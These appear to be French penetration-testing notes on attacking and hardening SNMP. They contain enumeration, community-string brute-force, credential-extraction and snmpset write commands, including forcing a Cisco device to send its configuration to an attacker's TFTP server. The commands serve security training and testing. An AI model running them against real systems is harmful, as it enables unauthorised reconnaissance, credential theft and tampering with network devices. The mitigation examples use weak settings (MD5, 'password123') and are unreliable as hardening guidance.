

## Ports SNMP

- **161/UDP** : Requêtes SNMP standard.
- **162/UDP** : SNMP Traps (notifications d'événements).

## Versions SNMP

| Version | Sécurité |
| :--- | :--- |
| **SNMPv1** | Non sécurisé, Community Strings en clair (`public`, `private`) |
| **SNMPv2c** | Identique à SNMPv1, support des compteurs |
| **SNMPv3** | Sécurisé avec authentification et chiffrement (MD5/SHA + AES/DES) |

> [!danger] Condition critique
> **SNMPv3** est la seule version recommandée pour éviter l'exposition des **Community Strings**.

## SNMPv1 et SNMPv2c avec Community Strings en clair

Les versions **SNMPv1** et **SNMPv2c** utilisent des **Community Strings** en clair, permettant l'accès aux données sans authentification forte.

### Vérification de l'activation

```bash
nmap -sU -p 161 --script=snmp-info target.com
```

### Test des Community Strings

```bash
snmpwalk -v1 -c public target.com
snmpwalk -v2c -c private target.com
```

### Bruteforce des Community Strings

```bash
hydra -P community_strings.txt target.com snmp
```

### Mitigation

```bash
no snmp-server community public
no snmp-server community private
```

## Utilisation d'outils d'énumération avancés (onesixtyone, snmp-check)

Pour une énumération plus rapide et structurée, notamment lors de tests sur des plages IP étendues, ces outils sont préférables à `snmpwalk`.

### Utilisation de onesixtyone
Permet de tester rapidement une liste de cibles avec une liste de communautés.

```bash
onesixtyone -c community_strings.txt -i targets.txt
```

### Utilisation de snmp-check
Fournit un rapport complet sur les informations système, interfaces, et services.

```bash
snmp-check -t target.com -c public
```

## Extraction de MIBs spécifiques

> [!tip] Prérequis
> La connaissance des **OID** (Object Identifiers) est cruciale pour extraire des données spécifiques.

L'extraction ciblée permet de récupérer des informations précises sur le système (voir notes liées : [[Enumeration]]).

```bash
# Extraction des informations système (sysDescr)
snmpget -v2c -c public target.com 1.3.6.1.2.1.1.1.0

# Extraction de la table des processus
snmpwalk -v2c -c public target.com 1.3.6.1.2.1.25.4.2.1.2
```

## Analyse des fichiers de configuration extraits

Lorsqu'un accès en écriture est obtenu, il est possible de forcer l'équipement à envoyer sa configuration vers un serveur TFTP contrôlé par l'attaquant.

1. Configurer un serveur TFTP local.
2. Utiliser `snmpset` pour modifier la variable `ccCopyServerAddress` et `ccCopyStart` sur un équipement Cisco.
3. Analyser le fichier reçu pour extraire les secrets (voir notes liées : [[Dangerous Settings]]).

```bash
# Exemple de déclenchement de sauvegarde de configuration via SNMP
snmpset -v2c -c private target.com 1.3.6.1.4.1.9.9.96.1.1.1.1.14.101 i 1
```

## Escalade de privilèges via SNMP (ex: modification de services)

Si l'accès en écriture est configuré, il est possible de modifier des paramètres critiques, comme le chemin d'un service ou l'ajout d'un utilisateur, menant à une escalade de privilèges (voir notes liées : [[Linux]], [[Windows]]).

```bash
# Modification d'un paramètre de service (exemple théorique)
snmpset -v2c -c private target.com 1.3.6.1.4.1.77.1.2.25.0 s "nouveau_service_malveillant"
```

## Accès Anonyme aux Informations Sensibles

### Liste des utilisateurs Windows/Linux

```bash
snmpwalk -v2c -c public target.com 1.3.6.1.4.1.77.1.2.25
```

### Interfaces réseau et adresses IP

```bash
snmpwalk -v2c -c public target.com 1.3.6.1.2.1.4.20.1.1
```

### Processus en cours

```bash
snmpwalk -v2c -c public target.com HOST-RESOURCES-MIB::hrSWRunName
```

### Mitigation

```bash
snmp-server host 192.168.1.100 version 3 auth admin
```

## Fuite de mots de passe stockés en clair

### Vérification des mots de passe Cisco

```bash
snmpwalk -v2c -c public target.com 1.3.6.1.4.1.9.2.1.55
```

### Recherche de credentials Windows/Linux

```bash
snmpwalk -v2c -c public target.com 1.3.6.1.2.1.25.4.2.1.2
```

## SNMP Traps exposés

> [!danger] Danger
> Le sniffing SNMP (**tcpdump**) en environnement de production peut générer un volume de logs important.

### Capture des SNMP Traps

```bash
snmptrapd -f -Lo
```

### Mitigation

```bash
snmp-server host 192.168.1.100 traps version 3 auth admin
```

## SNMP Write Access

> [!warning] Attention
> L'utilisation de **snmpset** peut rendre un équipement instable ou corrompre sa configuration.

### Vérification de l'autorisation d'écriture

```bash
snmpset -v2c -c private target.com sysContact.0 s "Hacked"
```

### Mitigation

```bash
no snmp-server write community private
```

## Absence de chiffrement

### Écoute du trafic SNMP

```bash
tcpdump -i eth0 port 161 -X
```

### Mitigation

```bash
snmp-server user admin auth md5 password123 priv aes password123
```

## Résumé et Mitigation

| Vulnérabilité | Solution |
| :--- | :--- |
| **SNMPv1** et **v2c** activés | Désactiver `public`, `private` et activer **SNMPv3** |
| Accès anonyme aux informations système | Restreindre les accès **SNMP** aux IP de confiance |
| Fuite de mots de passe via **SNMP** | Supprimer les credentials exposés, activer **SNMPv3** |
| **SNMP Traps** contenant des infos sensibles | Filtrer les données envoyées en traps |
| Accès en écriture **SNMP** | Désactiver les commandes **SET** |
| Données **SNMP** non chiffrées | Activer **SNMPv3** avec `priv` pour le chiffrement |

## Liens associés
- [[Enumeration]]
- [[Hydra]]
- [[Linux]]
- [[Windows]]
- [[Tcpdump]]
- [[Dangerous Settings]]